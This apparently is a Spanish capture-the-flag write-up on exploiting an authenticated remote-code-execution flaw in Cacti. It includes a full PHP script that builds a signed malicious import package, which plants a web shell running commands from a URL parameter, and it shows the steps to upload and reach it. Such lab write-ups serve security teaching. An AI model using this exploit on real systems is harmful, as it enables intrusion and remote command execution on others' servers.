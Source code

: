 Así que lo añadimos al `/etc/hosts` para que resuelva en la máquina víctima:
![[Pasted image 20240826194325.png]]

Accedemos al subdominio y vemos lo siguiente:
![[Pasted image 20240826222637.png]]

Se trata de Cacti que si buscamos sobre él veremos en la siguiente página que tiene una vulnerabilidad de RCE por lo que si obtenemos acceso podremos ejecutar comandos en la máquina víctima:
https://github.com/Cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88

Probamos con la credencial que hemos *crackeado*:
![[Pasted image 20240826223012.png]]
Como vemos, hemos obtenido acceso. 

Por lo que si leemos la web que nos muestra como obtener RCE vemos que mediante el módulo de importar *packages* podemos subir un *package* que nos permita ejecutar comandos con PHP. Este código PHP permite crear un *package* malicioso:
```php
<?php

$xmldata = "<xml>
   <files>
       <file>
           <name>resource/test.php</name>
           <data>%s</data>
           <filesignature>%s</filesignature>
       </file>
   </files>
   <publickey>%s</publickey>
   <signature></signature>
</xml>";
$filedata = "<?php system(\$_GET['cmd']); ?>";
$keypair = openssl_pkey_new(); 
$public_key = openssl_pkey_get_details($keypair)["key"]; 
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
file_put_contents("test.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
system("cat test.xml | gzip -9 > test.xml.gz; rm test.xml");

?>
```

Por lo que si lo ejecutamos, se crea un archivo "test.xml.gz":
![[Pasted image 20240826225002.png]]

Que si subimos mediante el módulo de *import packages*:
![[Pasted image 20240826225108.png]]

Y accedemos a `/cacti/resource/test.php`, tenemos una *web shell*:
![[Pasted image 20240826225218.png]]

